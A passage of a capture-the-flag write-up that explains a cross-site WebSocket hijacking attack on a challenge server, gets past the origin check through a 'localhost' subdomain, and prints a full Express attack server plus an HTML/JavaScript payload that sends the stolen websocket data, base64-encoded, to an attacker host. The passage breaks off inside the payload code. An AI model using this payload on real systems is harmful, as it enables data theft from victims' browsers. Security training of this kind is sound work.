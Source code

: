 After accessing the cookie, we just need to attempt the websocket connection to the server, then feed back the response through a [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest) GET request back to the attack server to retrieve the flag. 

Applying some Base64 encoding also helped to prevent invalid URLs.

However, we soon realised that the websocket server also checks the origin of the connection, and the host must begin with `http://localhost`. This was a simply fix by simply pointing the `localhost` subdomain of your own domain to the attack server.

![Cloudflare configuration](./images/quotes_1.png)

We can simply then submit `http://localhost.domain.tld:7070/quotes` as the link into http://challs.nusgreyhats.org:12326/share

Full attack server script and HTML payload:

`server.js`
```js
const express = require('express');
const app = express();

app.use(express.urlencoded({extended: true}));

app.use((req, res, next) => {
  console.log(`${req.method} - ${req.url} ${JSON.stringify(req.headers)}`);
  console.log(req.cookies);
  next();
});

app.get('/quotes', (req, res) => {
  res.sendFile("quotes.html", { root: __dirname });
});

app.get('/auth', (req, res) => {
  res.redirect('http://localhost:7070/auth');
});

app.listen(7070);
```

`quotes.html`
```html
<html>
  <body>
    Hi! Such a simple and wonderful quote!
    <img src="http://localhost.domain.tld:7070/auth">
    <!-- <img src="http://challs.nusgreyhats.org:12326/auth"> -->
    <script>
      setTimeout(function () {
        var ws = new WebSocket("ws://localhost:7070/quote");
        ws.onmessage = function(evt) {
          var xx = new XMLHttpRequest();
          xx.open("GET", "http://localhost.domain.tld:7070/quotes?q=" + encodeURIComponent(btoa(evt.data)), false);
          xx.send();
        }
        ws.onerror = function(evt) {
          var xx = new XMLHttpRequest();
```